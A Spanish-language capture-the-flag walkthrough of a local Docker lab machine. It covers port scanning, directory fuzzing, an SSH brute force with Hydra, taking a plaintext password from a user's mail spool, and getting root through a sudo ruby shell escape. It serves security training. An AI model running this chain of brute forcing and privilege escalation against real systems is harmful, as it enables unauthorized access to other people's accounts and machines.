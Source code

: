 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh vacaiones.tar
```

![[Pasted image 20250129185403.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250129185423.png]]

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250129185545.png]]

Nos metemos en los directorios:

![[Pasted image 20250129185715.png]]

```Bash
cntrl + u
```

![[Pasted image 20250129185818.png]]

Nos da un usuario (Camilo)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250129190053.png]]

Nos conectamos con SSH:

```Bash
ssh camilo@172.17.0.2
```

![[Pasted image 20250129190547.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250129190824.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250129190912.png]]

```Bash
find / -perm /4000 2>/dev/null
```

![[Pasted image 20250129191753.png]]

No podemos.

Nos vamos a la dirección donde se guardan los mail

```Bash
cd /var/mail/camilo
```

![[Pasted image 20250129192332.png]]

(A veces se guardan aquí también)

```Bash
cd /var/spool/mail/camilo
```

```Bash
ls
```

![[Pasted image 20250129192510.png]]

```Bash
cat correo.txt
```

![[Pasted image 20250129192543.png]]

juan: 2k84dicb

Nos conectamos con SSH:

```Bash
ssh juan@172.17.0.2
```

![[Pasted image 20250129192647.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250129192815.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250129192913.png]]

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![[Pasted image 20250129193159.png]]

```Bash
whoami
```

![[Pasted image 20250129193213.png]]